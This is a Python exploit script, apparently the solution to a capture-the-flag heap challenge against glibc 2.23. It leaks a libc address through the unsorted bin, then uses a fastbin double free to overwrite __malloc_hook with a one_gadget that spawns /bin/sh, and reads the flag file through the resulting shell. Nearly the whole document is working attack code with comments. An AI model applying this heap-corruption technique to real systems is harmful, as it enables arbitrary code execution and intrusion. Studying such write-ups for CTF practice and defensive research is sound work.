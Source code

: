 ```py
    ## leak libc
    add(0, 0x450)  ## unsorted bin size
    add(1, 0x10)  ## avoid consolidation of the above when freed
    free(0)  ## puts 0 in unsorted bins
    view(0)  ## libc leak
    libc.address = u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00")) - (
        libc.symbols.main_arena + 88  ## Offset of the leak found with GDB
    )
    log.success(f"libc @ {hex(libc.address)}")

    ## cleanup
    add(0, 0x450)

    ## overwrite __malloc_hook
    add(3, 0x60)
    add(4, 0x60)
    ## fastbin double free
    free(3)

    ## free(4) needed to bypass a check: https://elixir.bootlin.com/glibc/glibc-2.23/source/malloc/malloc.c#L3933
    free(4)
    free(3)  ## double free!

    ## chunksize on this pointer returns a size of 0x7f, which is valid for fastbins
    ## 0x7f comes by taking a misaligned pointer to libc
    change(3, p64(libc.symbols.__malloc_hook - 0x23))

    add(5, 0x60)
    add(6, 0x60)  ## contains our pointer into libc!

    """
    0x45226 execve("/bin/sh", rsp+0x30, environ)
    constraints:
      rax == NULL

    0x4527a execve("/bin/sh", rsp+0x30, environ)
    constraints:
      [rsp+0x30] == NULL

    0xf03a4 execve("/bin/sh", rsp+0x50, environ)
    constraints:
      [rsp+0x50] == NULL

    0xf1247 execve("/bin/sh", rsp+0x70, environ)
    constraints:
      [rsp+0x70] == NULL
    """
    ## Overwrite __malloc_hook with a one_gadget
    change(6, b"A" * 3 + b"B" * 8 * 2 + p64(libc.address + 0x4527A))
    add(0, 0x10)  ## Trigger __malloc_hook

    ## Profit!
    io.sendline(b"cat flag.txt")
    io.interactive()


if __name__ == "__main__":
    main()
```
